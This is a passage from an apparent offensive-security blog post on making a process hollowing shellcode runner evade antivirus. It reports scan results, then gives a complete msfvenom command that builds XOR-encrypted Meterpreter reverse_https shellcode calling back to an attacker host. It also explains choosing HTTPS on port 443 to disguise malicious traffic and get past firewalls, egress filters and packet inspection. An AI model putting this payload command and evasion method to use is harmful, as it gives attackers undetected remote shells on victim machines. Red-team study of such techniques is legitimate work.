 *Bada bing bada boom*, we now have a working process hollowing shellcode runner.

Still with me? Okay, cool, now we get to the actual research, implementing antivirus evasion.

## The Journey Begins: Encrypting the Payload

To begin, let’s look at the initial process hollowing shellcode runner’s detection rate for a baseline comparison.

To test each version of the shellcode runner without distributing the findings, I used [KleenScan](https://kleenscan.com/index).

This service performs scan-time testing against 40 different antivirus engines, but most importantly, it doesn’t distribute.

Also, the PE file’s name will change in several of these screenshots. This is because I made numerous versions of the shellcode runner during testing. The date of the scan may also change, as I had to go back to get screenshots when writing this post.

So, how does the initial shellcode runner hold up?

![](http://loganelliottinfosec.com/wp-content/uploads/2023/10/baseline-results-742x1024.png)

Well, the answer is… not very well.

This leaves *plenty* of room for improvement.

The first addition that can be made is XOR encrypting our MSFVenom shellcode to hopefully bypass signature detection.

We will generate the new XOR encrypted payload with the following command:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d 'nr' 
```

I chose to use the payload:

**windows/x64/meterpreter/reverse\_https**

Because this payload utilizes HTTPS for the network communication between the victim machine and the attacker machine.

Using HTTPS with port 443, we can better disguise our malicious network traffic by blending in with normal network traffic.

Additionally, the communication is, of course, encrypted with TLS.

This should help bypass network firewalls, egress filters, and packet/protocol inspection.

We then append the flags and arguments:

**–encrypt xor**

**–encrypt-key z**

**-i 20**

This will cause the outputted shellcode to be XOR encrypted, with the XOR encryption key set to the ASCII character “z”, and will iterate the encryption 20 times.
